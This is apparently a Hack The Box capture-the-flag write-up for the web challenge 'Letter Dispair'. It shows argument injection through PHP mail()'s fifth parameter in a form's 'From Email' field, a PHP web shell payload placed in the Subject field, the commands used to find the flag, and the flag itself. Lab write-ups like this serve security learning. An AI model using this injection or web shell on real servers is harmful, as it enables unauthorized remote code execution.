



| site | Hack the box |
| url | https://app.hackthebox.com/challenges/letter-dispair |
| discussion | https://forum.hackthebox.com/t/official-letter-dispair-discussion/4007 |
| type | challenge/web |
| difficulty | easy |
| startdate | 2022-07-31 |
| enddate | 2022-08-03 |
We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:
mailer.php displays a form for sending e-mails:

mailer.zip contains mailer.php which allows us to analyse the source code.
A quick Google search tells us that PHP's mail() function allows remote code execution if the fifth parameter can be influenced by the user. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.
Following the article at [1], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:
relations@moi.gov.htb -X/var/www/html/rce.php
Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:
<?php system($_GET["cmd"]); ?>
However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:
<hr />
<form action="rce.php" method="get">
<input type="text"
id="cmd"
name="cmd"
value='<?php print($_GET["cmd"]); ?>'
autofocus
onfocus="var temp_value=this.value;
this.value='';
this.value=temp_value" />
</form>
<hr />
<pre>
<?php system($_GET["cmd"]); ?>
</pre>
<hr />
After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:
We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:
ls -la whoami find / -name *flag* cat /flag.txt
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}